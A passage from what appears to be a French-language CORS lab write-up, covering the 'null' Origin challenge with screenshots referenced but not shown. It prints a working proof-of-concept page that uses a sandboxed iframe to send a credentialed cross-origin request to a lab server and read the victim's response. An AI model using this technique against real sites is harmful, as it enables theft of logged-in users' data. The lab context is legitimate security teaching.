



# Application Trust "null" Origin

Le dernier challenge est un peu plus difficile puisque le serveur n'accepte plus que les requêtes provenant d'une origine `null` :



La solution pour avoir un entête `Origin` possédant une valeur `null` est d'utiliser une iframe comme ceci :

```markup
<html>
  <head>
    <title>CORS vulnerable lab - Null Origin</title>
  </head>

  <body>
    <iframe sandbox="allow-scripts" src="data:text/html,
      <script>
        var xhr=new XMLHttpRequest();
        xhr.open('GET', 'http://192.168.56.184/null_origin.php', true);
        xhr.withCredentials = true;
        xhr.onreadystatechange = function() {
          if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
            console.log(xhr.response);
          }}; 
        xhr.send();
      </script>">
    </iframe>
  </body>
</html>
```

La réponse s'affiche bien dans la console lors de la visite de la victime :



En ce qui concerne la requête/réponse, voici les valeur des différents entêtes :




